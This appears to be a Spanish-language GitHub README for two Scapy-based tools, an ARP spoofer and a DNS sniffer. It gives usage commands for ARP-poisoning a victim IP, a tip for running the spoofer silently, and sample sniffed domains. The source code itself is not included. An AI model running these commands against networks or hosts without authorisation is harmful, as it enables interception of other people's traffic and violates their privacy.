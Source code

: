 # ARP Spoof and DNS Sniffer
Intercepta paquetes en la red local & Sniffer DNS.

## Modo de uso:

### Arp Spoof

 `./arp_spoof.py -h`

    usage: arp_spoof.py [-h] -t IP_ADDRESS

    ARP Spoofer using Scapy

    options:

      -h, --help
            show this help message and exit

      -t IP_ADDRESS, --target IP_ADDRESS
            Specify a particular Host/IP to ARP poison.

Victima IP ejemplo: 192.168.1.2

`sudo ./arp_spoof.py -t 192.168.1.2`

    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.

**[!] Nota:** Si no desea ver el output del Script ejecutarlo de la siguiente manera.

`sudo ./arp_spoof.py -t 192.168.1.2 &>/dev/null`

### DNS Sniffer

`sudo ./dns_sniffer`

    [+] Dominio www.paypal.com.
    [+] Dominio m.facebook.com.
    [+] Dominio dev-example.domain-internacional.net.


## Instalación:

**Linux**

`python3  pip install -r requeriments.txt`

